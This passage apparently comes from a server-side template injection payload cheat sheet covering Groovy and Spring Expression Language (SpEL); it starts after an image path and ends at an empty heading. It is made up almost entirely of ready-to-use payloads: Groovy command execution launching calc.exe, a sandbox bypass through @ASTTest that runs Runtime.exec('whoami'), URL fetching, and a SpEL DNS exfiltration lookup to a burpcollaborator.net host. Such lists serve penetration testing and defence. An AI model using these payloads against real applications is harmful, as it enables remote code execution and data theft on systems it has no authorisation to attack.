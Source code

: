 ```groovy
${"http://www.google.com".toURL().text}
${new URL("http://www.google.com").getText()}
```

### Groovy - Command Execution

```groovy
${"calc.exe".exec()}
${"calc.exe".execute()}
${this.evaluate("9*9") //(this is a Script class)}
${new org.codehaus.groovy.runtime.MethodClosure("calc.exe","execute").call()}
```

### Groovy - Sandbox Bypass

```groovy
${ @ASTTest(value={assert java.lang.Runtime.getRuntime().exec("whoami")})
def x }
```

or

```groovy
${ new groovy.lang.GroovyClassLoader().parseClass("@groovy.transform.ASTTest(value={assert java.lang.Runtime.getRuntime().exec(\"calc.exe\")})def x") }
```

---

## Spring Expression Language

[Official website](https://docs.spring.io/spring-framework/docs/3.0.x/reference/expressions.html)

> The Spring Expression Language (SpEL for short) is a powerful expression language that supports querying and manipulating an object graph at runtime. The language syntax is similar to Unified EL but offers additional features, most notably method invocation and basic string templating functionality.

### SpEL - Basic Injection

```java
${7*7}
${'patt'.toString().replace('a', 'x')}
```

### SpEL - DNS Exfiltration

DNS lookup

```java
${"".getClass().forName("java.net.InetAddress").getMethod("getByName","".getClass()).invoke("","xxxxxxxxxxxxxx.burpcollaborator.net")}
```

### SpEL - Session Attributes
